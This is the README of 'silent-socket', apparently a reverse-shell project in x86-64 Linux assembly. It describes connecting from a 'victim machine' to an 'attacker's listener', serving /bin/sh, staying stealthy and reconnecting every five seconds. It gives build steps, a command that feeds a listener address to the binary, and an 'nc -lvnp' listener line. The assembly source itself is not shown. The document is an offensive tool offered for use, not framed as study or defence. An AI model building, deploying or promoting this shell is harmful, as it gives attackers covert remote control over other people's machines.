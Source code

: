 # silent-socket

**silent-socket** is a minimal reverse shell written in x86-64 assembly for Linux. It creates an outbound connection from a victim machine to a remote attacker's listener and binds a functional shell over that connection.

The project emphasizes low-level control, reliability, and stealth — with built-in error handling and reconnection logic to survive listener unavailability.

---

## ✨ Features

- Outbound TCP connection from victim to attacker.
- Binds a `/bin/sh` shell over the network socket.
- Written entirely in Linux x86-64 assembly.
- Styled terminal on connect:
  - Pastel pink background.
  - Dark pink shell text.
- Full error handling:
  - Prevents segmentation faults if the remote listener is down.
  - Implements automatic reconnection attempts every 5 seconds.
- Slightly optimized for size and performance (no useless instructions).
- Implements an argument read via the CLi or a syscall read for the source IP/port

---

## 🚀 Deployement

### Requirements

- Linux 64-bit OS
- `nasm` (Netwide Assembler)
- `ld` (GNU Linker)

### Build

```bash
nasm -f elf64 -o reverse_shell.o reverse_shell.asm
ld -o reverse_shell reverse_shell.o
echo -n "127.0.0.1:3385" | ./reverse_shell
```

### Run on another terminal
```bash
nc -lvnp 3385
```

